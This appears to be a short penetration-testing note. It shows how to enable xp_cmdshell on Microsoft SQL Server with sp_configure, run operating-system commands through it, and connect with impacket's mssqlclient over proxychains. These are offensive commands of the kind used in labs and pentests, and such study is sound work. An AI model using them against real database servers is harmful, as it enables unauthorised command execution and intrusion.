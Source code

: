 In MSSQL thanks to the keyword execute, we can execute arbitrary command on the operating system below. To do that first we have to enable command execution inside the Database with

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Then execute commands with

```sql
EXECUTE xp_cmdshell 'whoami'
```

Putting all togheter, we can have very fancy injections adding multiple tools.

### impacket-mssqlclient

We can use **impacket-mssqlclient** with **-windows-auth** as login method in the **MSSQL** Database

```shell
proxychains python3 /home/kali/.local/bin/mssqlclient.py -port 1433 domain.com/user:password@<IP> -windows-auth
```